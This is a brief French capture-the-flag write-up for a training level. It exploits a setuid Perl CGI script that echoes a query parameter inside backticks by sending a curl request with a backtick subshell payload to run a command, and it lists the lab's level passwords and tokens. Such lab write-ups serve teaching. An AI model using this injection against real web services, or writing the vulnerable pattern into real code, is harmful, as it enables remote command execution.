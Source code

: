 # Level04: Injection subshell script perl

> login:password -> *`level04:qi0maab88jeaj46qoumi7maus`*
```
:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
```
---

```
:~$ pwd
/home/user/level04
```

```
:~$ ls -la
...
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
...
```

Le Home posséde un script perl level04.pl

```
:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script affiche la valeur du parametre "x" sur le port `:4747`.
On peut donc injecter un subshell pour que son echo affiche le resultat

```
:~$ curl 'localhost:4747?x=toto'
toto

:~$ curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Le flag nous permet de se connecter au level05
`level05:ne2searoevaevoem4ov4ar8ap`

> Tools:
> - https://unix.stackexchange.com/questions/138463/do-parentheses-really-put-the-command-in-a-subshell
